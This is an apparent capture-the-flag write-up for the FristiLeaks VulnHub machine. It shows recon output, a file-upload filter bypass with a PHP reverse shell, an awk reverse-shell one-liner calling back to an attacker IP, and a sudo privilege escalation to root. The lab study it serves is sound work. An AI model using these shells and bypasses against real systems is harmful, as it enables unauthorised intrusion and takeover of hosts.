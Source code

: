 # Fristileaks

<!-- TOC -->

- [Fristileaks](#fristileaks)
    - [Recon & Enummeration](#recon--enummeration)
    - [Intitial Foothold](#intitial-foothold)
    - [Privilege Escalation](#privilege-escalation)
        - [admin](#admin)
        - [fristigod](#fristigod)
        - [root](#root)

<!-- /TOC -->

## Recon & Enummeration

```
Nmap scan report for 10.10.10.3
Host is up (0.00060s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
```

Trying `http://10.10.10.3/fristi` displays an admin portal.
Other URL's display in a mere image.

The page source displays some commented out base64, which we put in `login.base64` and decode to a PNG image file:
`cat login.base64 | tr -d '\n' | base64 -d > out.png`

Resulting in an image displaying: `keKkeKKeKKeKkEkkEk`
Also the user "eezeepz" stands out



## Intitial Foothold

- Now we can upload a file, since we logged in with `eezeepz:keKkeKKeKKeKkEkkEk`. 
- Upload a php reverse shell with filename `shell.php.png` to bypass the file extension filter
- Pop reverse shell

result: 

```
bash-4.1$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```

## Privilege Escalation


### admin
If we cat the file `/home/eezeepz/notes.txt` we can read we have command execution by putting files in the file `/tmp/runthis` which will be executed as admin user.
We create another reverse shell, this time interactive with the awk binary if `/usr/bin`:
```
/usr/bin/awk 'BEGIN {s = "/inet/tcp/0/10.10.10.4/12345"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


### fristigod

From there we find out the admin user has a python script to "encrypt" messages:

```
connect to [10.10.10.4] from (UNKNOWN) [10.10.10.3] 39900
shell>id
uid=501(admin) gid=501(admin) groups=501(admin)
shell>cat whoisyourgodnow.txt
=RFn0AKnlMHMPIzpyuTI0ITG
shell>cat cryptedpass.txt
mVGZ3O3omkJLmy2pcuTq
shell>cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```


 We reverse them:

 ```
 kali@kali:~/vulnhub/fristileaks$ python decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
LetThereBeFristi!
```
```
kali@kali:~/vulnhub/fristileaks$ python decryptpass.py mVGZ3O3omkJLmy2pcuTq
thisisalsopw123
```

Our credential list is as follows:

```
eezepeez:?
fristigod:LetThereBeFristi!
admin:thisisalsopw123
```

### root

The user Fristigod has a folder `/var/fristigod/.secret_admin_stuff`.

`sudo -l` shows us we can run `doCom` as the user fristi as follows:
```
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom bash
```

Which will elevate us to root:
```
bash-4.1# id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
bash-4.1# cat fristileaks_secrets.txt 
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```




